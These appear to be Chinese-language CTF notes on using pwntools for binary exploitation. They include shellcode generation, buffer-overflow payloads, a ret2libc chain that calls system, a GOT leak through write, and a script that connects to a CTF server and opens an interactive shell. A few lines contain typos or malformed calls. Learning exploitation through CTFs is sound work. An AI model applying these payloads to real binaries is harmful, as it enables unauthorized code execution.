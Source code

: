 __flat模块能将pattern字符串和地址结合并且转为字节模式__

```python
payload = flat(cyclic(32), 0x804a060)
io.sendlijneafter(':', flat['a'*0x8c, e.plt['system'], 0, 0x804a024, 0, 0])
```

symbols

    ELF('./level3').symbols['main']
    ELF('./level3').sym['main']

gdb.attach(sh) # gdb附加到调试
### 示例
```python
from pwn import *
context(log_level = 'debug', arch = 'i386', os = 'linux') # 能显示调试信息
#io = process('./level1') 
io = remote('pwn2.jarvisoj.com', 9877) # 远程连接
text = io.recvline()[14: -2] # 获取返回值
# recvline(keepends=True) : 接收一行，keepends为是否保留行尾的\n
shellcode = asm(shellcraft.sh()) # pwntools生成的 sh 的shellcode
p64(0x400000) # 地址转 64 位二进制
p32(0x400000) # 地址转 32 位二进制
payload = shellcode.decode('latin') + '\x90' * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr).decode('latin')
io.send(payload)
io.interactive()
io.close()
```

从write返回main
```python
#char[88] ebp  write函数地址  write函数返回地址(返回到main函数)  write函数参数一(1)  write函数参数二(write_got地址)  write函数参数三(写4字节)
payload = flat('A'*0x88, p32(0xdeadbeef), p32(write_plt), p32(main_addr), p32(1), p32(write_got), p32(0xdeadbeef))
# payload = flat('a'*0x88, p64(syscall), p64(syscall)) # buuctf这题需要2个，不明白。好像是栈没对齐的原因
```
#### 输入字符
```python
io.sendlineafter('name', payload)

io.recvuntil("your name")
io.sendline("/bin/sh")

print(io.recvall())
```

#### 汇编转二进制、数字、字符转换等
```python
# python3
from pwn import *
print(asm('XCHG EAX,ESP\nRET\nMOV ECX,[EAX]\nMOV [EDX],ECX\nPOP EBX\nRET'.lower()).hex())
```
p32
```python
>>> p32(0x8040000)
b'\x00\x00\x04\x08'
```
